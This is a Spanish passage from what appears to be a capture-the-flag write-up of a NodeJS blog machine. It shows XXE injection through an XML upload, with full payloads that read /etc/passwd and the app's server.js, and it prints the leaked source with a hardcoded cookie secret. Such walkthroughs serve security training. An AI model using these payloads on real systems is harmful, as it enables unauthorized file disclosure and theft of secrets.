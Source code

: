 Asi que ahora subiremos un XML con esa estructura para probar, y vean que nos lo interpreta:

![](/assets/img/nodeBlog/7.png)

En este punto como sabemos que podemos subir archivos XML y este sera interpretado, intentaremos probar XXE pero no centraremos en leer archivos de la maquina de esta manera:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY archivo SYSTEM "file:///etc/passwd"> ]>
<post>
    <title>ola</title>
    <description>descripcion ejemplo</description>
    <markdown>&archivo;</markdown>
</post>
```

- Con **<!DOCTYPE foo [ <!ENTITY archivo SYSTEM "file:///etc/passwd"> ]>** se le esta indicando que defina una entidad externa con el nombre **archivo** la cual hace uso del wrapper **file://** para apuntar al archivo **/etc/passwd**, si probamos vamos a poder ver el archivo passwd, lo que estaria pasando es que la entidad externa se estaria procesando, y gracias al wapper file, se estaria incluyendo el archivo **passwd** en la respuesta del servidor

![](/assets/img/nodeBlog/8.png)

### XXE (leyendo el archivo de la aplicacion)

Recordemos que anteriormente les habia mostrado que en el panel de login cuando se le manda una entrada incorrecta, la aplicacion peta y filtra la ruta de la aplicacion, la cual es **/opt/blog/**, nuestro objetivo es encontrar el archivo main de la aplicacion, tambien recuerden que en la enumeracion nos dimos cuenta que aplicacion hace uso de **NodeJS**, pues en una aplicacion de **NodeJS** los nombres del archivo main mas comunes son: **server.js**, **app.js**, **index.js** o **main.js**, asi que usaremos el XXE para apuntar a ese archivo, les puedo adelantar que el correcto en este caso es el **server.js**, y nuestro payload quedaria asi:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [ <!ENTITY archivo SYSTEM "file:///opt/blog/server.js"> ]>
<post>
    <title>ola</title>
    <description>descripcion ejemplo</description>
    <markdown>&archivo;</markdown>
</post>
```

El ejecutarlo obtendremos el contenido de ese archivo

![](/assets/img/nodeBlog/9.png)

```js
const express = require('express')
const mongoose = require('mongoose')
const Article = require('./models/article')
const articleRouter = require('./routes/articles')
const loginRouter = require('./routes/login')
const serialize = require('node-serialize')
const methodOverride = require('method-override')
const fileUpload = require('express-fileupload')
const cookieParser = require('cookie-parser');
const crypto = require('crypto')
const cookie_secret = "UHC-SecretCookie"
//var session = require('express-session');
const app = express()

mongoose.connect('mongodb://localhost/blog')

app.set('view engine', 'ejs')
```